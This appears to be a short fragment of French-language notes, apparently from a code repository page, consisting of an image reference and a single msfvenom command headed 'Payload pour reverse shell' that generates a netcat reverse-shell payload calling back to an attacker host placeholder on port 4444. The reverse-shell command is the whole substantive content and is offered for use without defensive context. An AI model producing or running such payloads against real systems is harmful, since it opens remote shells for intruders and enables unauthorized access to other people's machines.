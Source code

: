 
Payload pour reverse shell : 

```bash
>>> msfvenom -p cmd/unix/reverse_netcat lhost=[ip hote] lport=4444 R
```